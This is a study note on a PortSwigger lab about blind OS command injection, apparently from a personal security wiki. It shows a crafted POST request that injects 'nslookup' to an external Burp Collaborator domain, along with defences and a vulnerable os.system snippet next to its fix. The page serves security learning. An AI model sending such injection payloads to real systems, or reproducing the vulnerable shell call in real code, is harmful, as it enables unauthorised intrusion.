

## Lab Setup: Blind OS Command Injection with Out-of-Band Interaction

### Lab Description

The lab described in the transcript involves a scenario where an attacker attempts to perform a Blind OS Command Injection using Out-of-Band Interaction. The application responds with a generic message, making it difficult to determine the success of the injection directly. The attacker uses an external server, specifically a Burp Collaborator server, to confirm the injection.

### Step-by-Step Walkthrough

#### Step 1: Analyze the Post Request

First, let's analyze the POST request sent to the application. The request is likely structured as follows:

```http
POST /submit-feedback HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

email=attacker@example.com&feedback=Test%20Feedback
```

The response from the server is:

```http
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 31

Thank you for submitting the feedback.
```

This response does not provide any direct feedback about the success of the command injection.

#### Step 2: Identify the Vulnerable Field

From the transcript, we know that the `email` field is vulnerable to command injection. We will use this field to inject our command.

#### Step 3: Set Up the Burp Collaborator Server

To set up the Burp Collaborator server, follow these steps:

1. Open Burp Suite.
2. Click on the "Collaborator" tab.
3. Click on "Start Collaborator client".
4. Copy the collaborator domain provided by Burp.

For example, the collaborator domain might be `a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6q7r8s9t.collab.burpcollaborator.net`.

#### Step 4: Inject the Command

Now, we will inject a command that causes the server to perform a DNS lookup on the collaborator domain. The modified request would look like this:

```http
POST /submit-feedback HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 117

email=attacker@example.com; nslookup a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6q7r8s9t.collab.burpcollaborator.net&feedback=Test%20Feedback
```

#### Step 5: Monitor the Collaborator Server

After sending the request, monitor the Burp Collaborator server to see if the DNS lookup was performed. If the server logs the DNS request, it confirms that the command injection was successful.

### Mermaid Diagram: Attack Flow

Here is a mermaid diagram illustrating the attack flow:



### Common Pitfalls

- **Incorrect Command Syntax**: Ensure that the injected command is syntactically correct and compatible with the target operating system.
- **Network Restrictions**: The server may have network restrictions that prevent it from making external requests.
- **Collaborator Server Configuration**: Ensure that the collaborator server is correctly configured and accessible.

### How to Prevent / Defend Against OS Command Injection

#### Detection

- **Logging and Monitoring**: Implement logging and monitoring to detect unusual network activity or unexpected command executions.
- **Automated Scanning**: Use automated tools like Burp Suite, OWASP ZAP, or commercial scanners to identify potential vulnerabilities.

#### Prevention

- **Input Validation**: Validate and sanitize all user inputs to ensure they do not contain malicious commands.
- **Use Safe APIs**: Use safe APIs that do not execute shell commands, such as `subprocess.run()` in Python with the `shell=False` parameter.
- **Least Privilege Principle**: Run the application with the least privileges necessary to minimize the impact of a successful injection.

#### Secure Coding Fixes

**Vulnerable Code:**

```python
import os

user_input = input("Enter a directory name: ")
os.system(f"ls {user_input}")
```

**Secure Code:**

```python
import subprocess

user_input = input("Enter a directory name: ")
subprocess.run(["ls", user_input], check=True)
```

#### Configuration Hardening

- **Disable Shell Execution**: Disable shell execution capabilities in the application configuration.
- **Firewall Rules**: Configure firewall rules to restrict outbound network traffic from the server.

### Practice Labs

For hands-on practice with OS Command Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs on various web security topics, including OS Command Injection.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that contains numerous security vulnerabilities.

By thoroughly understanding and practicing the concepts covered in this chapter, you can effectively defend against OS Command Injection attacks and ensure the security of your applications.

---
<!-- nav -->
[[02-Blind OS Command Injection|Blind OS Command Injection]] | [[Web Security (PortSwigger)/10-OS Command Injection/05-Lab 4 Blind OS command injection with out of band interaction/00-Overview|Overview]] | [[04-OS Command Injection with Out-of-Band Interaction|OS Command Injection with Out-of-Band Interaction]]
